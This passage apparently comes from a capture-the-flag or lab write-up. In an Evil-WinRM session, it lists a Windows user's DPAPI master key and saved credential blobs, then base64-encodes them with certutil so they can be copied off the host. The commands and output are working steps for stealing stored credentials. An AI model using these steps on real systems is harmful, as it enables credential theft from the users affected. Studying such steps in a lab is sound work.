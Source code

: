```bash

Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

*Evil-WinRM* PS C:\Users\steph.cooper\AppData> gci -force Roaming\Microsoft\Protect


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         2/23/2025   2:36 PM                S-1-5-21-1487982659-1829050783-2281216199-1107
-a-hs-          3/8/2025   7:40 AM             24 CREDHIST
-a-hs-          3/8/2025   7:40 AM             76 SYNCHIST


*Evil-WinRM* PS C:\Users\steph.cooper\AppData> gci -force Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred
```

We can pass the blobs to our machine using `certuntil` to encode the files to base64 and then decode it on our machine. 

```bash
*Evil-WinRM* PS C:\tmp> certutil -encode C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 .\masterkey.b64
Input Length = 740
Output Length = 1076
CertUtil: -encode command completed successfully.

*Evil-WinRM* PS C:\tmp> certutil -encode C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 .\cred.b64
Input Length = 414
Output Length = 626
CertUtil: -encode command completed successfully.
```
